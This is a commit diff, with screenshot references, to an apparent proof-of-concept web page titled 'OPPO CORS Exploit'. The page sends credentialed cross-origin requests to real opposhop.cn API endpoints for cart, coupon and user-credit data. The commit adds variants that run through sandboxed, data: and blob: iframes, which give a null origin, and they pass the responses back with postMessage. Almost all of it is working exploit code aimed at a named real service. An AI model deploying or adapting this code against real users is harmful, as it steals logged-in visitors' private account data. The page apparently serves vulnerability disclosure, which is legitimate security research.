

Before and after one commit to Tohamisamrael/oppo-cors-poc.html, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "Run Exploit". Shown: the top 800 px of the page. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,16 +3,15 @@
 
 <head>
 <meta charset="UTF-8">
-<title>OPPO CORS Exploit PoC</title>
+<title>OPPO CORS Exploit Tests</title>
 
 <style>
 
 body{
-font-family: Arial, sans-serif;
+font-family:Arial;
 background:#eef2f7;
 margin:0;
 padding:30px;
-color:#222;
 }
 
 .container{
@@ -20,23 +19,12 @@
 margin:auto;
 }
 
-h1{
-text-align:center;
-margin-bottom:10px;
-}
-
-.description{
-text-align:center;
-font-size:16px;
-margin-bottom:30px;
-color:#444;
-}
+h1{text-align:center}
 
 button{
 display:block;
-margin:0 auto 30px auto;
+margin:20px auto;
 padding:12px 30px;
-font-size:16px;
 background:#2e7df6;
 color:white;
 border:none;
@@ -44,55 +32,27 @@
 cursor:pointer;
 }
 
-button:hover{
-background:#1c5ed3;
-}
-
-.grid{
-display:grid;
-grid-template-columns:1fr;
-gap:20px;
-}
-
 .card{
 background:white;
-padding:18px;
-border-radius:10px;
-box-shadow:0 2px 8px rgba(0,0,0,0.08);
-}
-
-.label{
-display:inline-block;
-padding:5px 12px;
-border-radius:6px;
-font-size:13px;
-color:white;
-margin-bottom:10px;
-}
-
-.cart{background:#4CAF50;}
-.count{background:#2196F3;}
-.coupon{background:#FF9800;}
-.credit{background:#9C27B0;}
-
-.url{
-font-size:14px;
-color:#555;
-margin-bottom:8px;
-word-break:break-word;
+padding:15px;
+margin-bottom:15px;
+border-radius:8px;
+box-shadow:0 2px 6px rgba(0,0,0,.1);
 }
 
 .status{
 font-weight:bold;
-margin-bottom:8px;
+margin:8px 0;
 }
 
 pre{
-background:#f5f6f8;
+background:#111;
+color:#0f0;
 padding:12px;
 border-radius:6px;
 white-space:pre-wrap;
-font-size:13px;
+word-break:break-word;
+min-height:40px;
 }
 
 </style>
@@ -103,107 +63,145 @@
 
 <div class="container">
 
-<h1>OPPO CORS Exploit Proof of Concept</h1>
+<h1>OPPO CORS Exploit Multi-Origin Test</h1>
 
-<div class="description">
-This page demonstrates a CORS misconfiguration allowing authenticated API requests to be executed and read from an external origin.
-</div>
+<button onclick="runTests()">Run Exploit</button>
 
-<button onclick="runExploit()">Run Exploit</button>
-
-<div class="grid" id="results"></div>
+<div id="results"></div>
 
 </div>
 
+<iframe id="sandboxFrame" sandbox="allow-scripts" style="display:none"></iframe>
+
 <script>
 
-function createCard(title,label,url){
+const endpoints={
 
-let card=document.createElement("div")
-card.className="card"
-
-card.innerHTML=
-'<div class="label '+label+'">'+title+'</div>'+
-'<div class="url">'+url+'</div>'+
-'<div class="status" id="'+label+'_status">Waiting...</div>'+
-'<pre id="'+label+'_data"></pre>'
-
-document.getElementById("results").appendChild(card)
+cart:"https://www.opposhop.cn/cn/oapi/orders/web/cart/v1/list",
+count:"https://www.opposhop.cn/cn/oapi/orders/web/cart/getCount",
+coupon:"https://www.opposhop.cn/cn/oapi/users/web/coupons/count?state=1",
+credit:"https://www.opposhop.cn/cn/oapi/users/web/credits/getUserCredit"
 
 }
 
-createCard(
-"Cart List",
-"cart",
-"https://www.opposhop.cn/cn/oapi/orders/web/cart/v1/list"
-)
+function createCard(name,method){
 
-createCard(
-"Cart Count",
-"count",
-"https://www.opposhop.cn/cn/oapi/orders/web/cart/getCount"
-)
+let id=method+"_"+name
 
-createCard(
-"Coupon Count",
-"coupon",
-"https://www.opposhop.cn/cn/oapi/users/web/coupons/count?state=1"
-)
+let div=document.createElement("div")
+div.className="card"
 
-createCard(
-"User Credits",
-"credit",
-"https://www.opposhop.cn/cn/oapi/users/web/credits/getUserCredit"
-)
+div.innerHTML=
+"<b>"+method.toUpperCase()+" → "+name+"</b>"+
+"<div class='status'>Status: <span id='"+id+"_status'>waiting</span></div>"+
+"<pre id='"+id+"_data'>no response yet</pre>"
 
-function request(url,label){
+document.getElementById("results").appendChild(div)
 
-fetch(url,{
-method:"GET",
-credentials:"include"
-})
-.then(response=>{
+}
 
-document.getElementById(label+"_status").innerText="STATUS: "+response.status
+for(let e in endpoints){
 
-return response.text()
+createCard(e,"sandbox")
+createCard(e,"data")
+createCard(e,"blob")
+
+}
+
+window.addEventListener("message",e=>{
+
+let d=e.data
+let id=d.method+"_"+d.endpoint
+
+if(!document.getElementById(id+"_status")) return
+
+document.getElementById(id+"_status").innerText=d.status
+
+let output=d.body
+
+try{
+output=JSON.stringify(JSON.parse(d.body),null,2)
+}catch{}
+
+document.getElementById(id+"_data").innerText=output
 
 })
-.then(data=>{
 
-document.getElementById(label+"_data").innerText=data
+function runTests(){
 
-})
-.catch(error=>{
+runSandbox()
+runData()
+runBlob()
 
-document.getElementById(label+"_status").innerText="ERROR"
-document.getElementById(label+"_data").innerText=error
+}
 
+function buildScript(method){
+
+return `
+<script>
+
+const endpoints=${JSON.stringify(endpoints)}
+
+for(let name in endpoints){
+
+fetch(endpoints[name],{credentials:"include"})
+.then(r=>r.text().then(t=>{
+parent.postMessage({
+method:"${method}",
+endpoint:name,
+status:r.status,
+body:t
+},"*")
+}))
+.catch(e=>{
+parent.postMessage({
+method:"${method}",
+endpoint:name,
+status:"error",
+body:e.toString()
+},"*")
 })
 
 }
 
-function runExploit(){
+<\/script>
+`
 
-request(
-"https://www.opposhop.cn/cn/oapi/orders/web/cart/v1/list",
-"cart"
-)
+}
 
-request(
-"https://www.opposhop.cn/cn/oapi/orders/web/cart/getCount",
-"count"
-)
+function runSandbox(){
 
-request(
-"https://www.opposhop.cn/cn/oapi/users/web/coupons/count?state=1",
-"coupon"
-)
+document.getElementById("sandboxFrame").srcdoc=buildScript("sandbox")
 
-request(
-"https://www.opposhop.cn/cn/oapi/users/web/credits/getUserCredit",
-"credit"
-)
+}
+
+function runData(){
+
+let code=buildScript("data")
+
+let url="data:text/html;base64,"+btoa(code)
+
+let iframe=document.createElement("iframe")
+iframe.src=url
+iframe.style.display="none"
+
+document.body.appendChild(iframe)
+
+}
+
+function runBlob(){
+
+let code=buildScript("blob")
+
+let blob=new Blob([code],{type:"text/html"})
+
+let url=URL.createObjectURL(blob)
+
+let iframe=document.createElement("iframe")
+iframe.src=url
+iframe.style.display="none"
+
+document.body.appendChild(iframe)
 
 }
 
```
